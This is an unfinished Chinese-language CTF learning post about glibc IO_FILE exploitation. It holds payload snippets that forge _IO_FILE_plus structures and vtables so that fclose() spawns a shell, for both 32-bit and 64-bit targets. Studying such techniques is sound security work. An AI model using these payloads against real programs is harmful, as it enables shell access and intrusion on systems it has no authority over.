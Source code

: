 ```yaml
---
title: IO_FILE ALl_in_one
date: 2018-11-06 20:46:15
tags:
layout: default
---
```

IO_FILE 总结 未完成...
<!--more-->
# Start
最近看到HItcon2018的babytcache发现IO_FILE还是博大精深，之前对于IO_FILE的理解还是十分稚嫩只知道orange和普通的利用...
尔后又看了老钟的博客感觉IO_FILE神奇的很! 收获满满
[老钟博客传送点][1]
开始自己动手把lowkey师傅的课件的题探索一遍...
感觉lowkey师傅的课件还是循循善诱当时基础太差没领会其中奥妙...
开始写前膜一波angelboy lowkey zs0zrc
# 0x00 IO_FILE Basic
像是一些我們熟悉的gets puts 都和IO_FILE有关
基础部分之前在[echo][2]和[orange][3]介绍过一些就不介绍了

# 0x01 fclose()_getshell

在32bit系统中，_IO_jump_t的偏移是0x94，64bit系统中偏移是0xE8

64位:
* 存在后门情况
```python
payload='\x00'*0x10+p64(sh)+"\x00"*0x70+p64(buf)
payload=payload.ljust(0xd8,'\x00')+p64(buf)
payload=payload.ljust(0x100)#充填防髒數據
```
* 不存在后门情况
```python
payload="/bin/sh".ljust(0x10,'\x00')+p64(system)+"\x00"*0x70+p64(buf+0x20)#此处地址上值为0
payload=payload.ljust(0xd8,'\x00')+p64(buf+0x10-0x88)
payload=payload.ljust(0x100,'\x00')#防止脏数据
```

32位：
伪造IO_FILE_plus结构体, 32位和64位不一样，32位的需要伪造vtable,而64位可以不用伪造vtable，因为64位的在绕过几个函数后会获得一次call [rax + 0x10]的机会（zs0zrc）
```python
#存在後門sh use_IO_new_fclose
payload="".ljust(0x48,'\x00')+p32(buf)+p32(sh)
payload=payload.ljust(0x94,'\x00')+p32(buf+0x4c-0x8)
payload=payload.ljust(0x100,"\x00")
#不存在後門情況 use __fclose
payload="/bin/sh".ljust(0x48,'\x00')+p32(buf+8)+p32(system)#0ff 0x48 處指向地址值位0
payload=payload.ljust(0x94,'\x00')+p32(buf-0x44+0x4c)
payload=payload.ljust(0x100,"\x00")

```




[1]:https://www.jianshu.com/p/a6354fa4dbdf
[2]:https://n132.github.io/IO-FILE-IO-buf-base/
[3]:https://n132.github.io/house-of-orange/


